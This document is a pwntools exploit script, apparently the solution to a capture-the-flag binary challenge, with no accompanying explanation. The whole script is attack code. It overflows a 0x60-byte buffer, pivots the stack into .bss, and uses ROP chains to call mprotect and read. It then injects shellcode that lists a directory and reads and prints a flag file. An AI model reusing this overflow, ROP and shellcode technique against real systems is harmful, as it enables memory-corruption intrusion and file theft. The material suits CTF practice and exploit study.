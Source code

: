 ```plain

pay=b'a'*0x60+p64(bss5+0x60)+p64(read)
r.send(pay)

pay = p64(bss5+0x70)+p64(rdi)+p64(0x404000)+p64(rsi_r15)+p64(0x1000)+p64(0)+p64(pop_rdx12)+p64(7)+p64(0x401090)+p64(mprotect)+p64(main)
r.send(pay) 

r.recv()
pay=b'a'*0x60+p64(bss6)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss6+0x60)+p64(read)
r.send(pay)

pay=p64(bss6+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss6+0x200)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(bss6+0x200)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./'))
shellcode += asm(shellcraft.getdents64(3, bss9, 0x200))
shellcode += asm(shellcraft.write(1,bss9, 0x200))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))

r.send(shellcode)

r.recvuntil('flag')
flag=r.recv(6)
print(flag)

r.recv()
pay=b'a'*0x60+p64(bss7)+p64(read)
r.send(pay)

pay=b'a'*0x60+p64(bss7+0x60)+p64(read)
r.send(pay)

r.recv()
pay=p64(bss7+0x70)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(0x404800)+p64(pop_rdx12)+p64(0x100)+p64(0x401090)+p64(read_addr)+p64(0x404800)

r.send(pay)

sleep(0.2)
shellcode = b''
shellcode += asm(shellcraft.open('./flag284876'))
shellcode += asm(shellcraft.read(4,0x404900,0x100))
shellcode += asm(shellcraft.write(1,0x404900,0x100))
shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (main))
r.send(shellcode)


r.interactive()
```

‍
